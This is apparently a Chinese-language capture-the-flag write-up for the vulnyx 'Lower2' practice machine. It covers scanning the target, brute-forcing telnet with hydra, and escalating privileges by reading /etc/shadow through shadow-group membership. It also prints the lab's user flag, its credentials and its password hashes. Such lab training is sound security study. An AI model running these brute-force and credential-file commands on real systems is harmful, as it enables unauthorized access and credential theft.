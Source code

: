 ```yaml
---
author: Slimer
title: vulnyx靶场-Lower2复现
description: vulnyx靶场
date: 2025-08-26
slug: 靶场
categories:
    - 靶场
image: images/2.webp
---
```


# 简介
vulnyx是一个提供各种漏洞环境的靶场平台，大部分环境是做好的虚拟机镜像文件，镜像预先设计了多种漏洞，需要使用VMware或者VirtualBox运行。每个镜像会有破解的目标，挑战的目标是获取操作系统的root权限和查看flag。
# **部署方法**
官网：https://vulnyx.com/
1.在官网搜索你想要的镜像,然后下载
2.下载好后解压得到`.ova`的文件，右击选择VMware进行打开
3.在弹出的框中，选择存放的位置，然后点击导入
4.最后等待导入完成，然后启动该虚拟机就可以了
**部署成功**
![[Pasted image 20250307124829.png]]
# 步骤
## 信息收集
这里我就不收集了，IP地址获取到了，如果在实战情况下还是需要确认一下的，直接fscan扫一边看一下：
```
./fscan.exe 192.168.198.137 -nobr -np
nmap 192.168.30.45 -A -O -p 1-65535
```
![[Pasted image 20250307125229.png]]
![[Pasted image 20250307125239.png]]
这边使用fscan和nmap都扫描了一边发现开放了三个端口：
```
22/tcp open  ssh
23/tcp open  telnet
80/tcp open  http
```
这里进行尝试连接一下ssh，发现给出了一个账户：**b.taylor**
22端口是不能爆破的。登录了一下发现是拒绝的。那就只能爆破23端口了。
![[Pasted image 20250307125456.png]]
使用hydra进行爆破
```
字典下载地址：https://github.com/dw0rsec/rockyou.txt

hydra -l b.taylor -P /root/Desktop/Tools/rockyou.txt telnet://192.168.198.137 -V -I

```
![[Pasted image 20250307130820.png]]
账号密码：b.taylor/rockyou
使用telnet进行登录即可：
![[Pasted image 20250307131333.png]]
## user
```
ZWRjOWY1YzU1YWY4NzUwNTAzM2EyMGRkNDE5MzEzNjQK
```
![[Pasted image 20250307131600.png]]
## shadow提权
发现这个用户附加了shadow组
可以查看一下权限
```
id
cat /etc/shadow
```
![[Pasted image 20250307131746.png]]
```
b.taylor:$y$j9T$du9sW7McN8WfjLKPRheP7/$pyE/4IrgDjurpaNzpdyxj8PYcOYyDksyYPG2rxEBxm4:20135:0:99999:7:::
root:$y$j9T$du9sW7McN8WfjLKPRheP7/$pyE/4IrgDjurpaNzpdyxj8PYcOYyDksyYPG2rxEBxm4:20134:0:99999:7:::
```
然后直接修改密码即可。






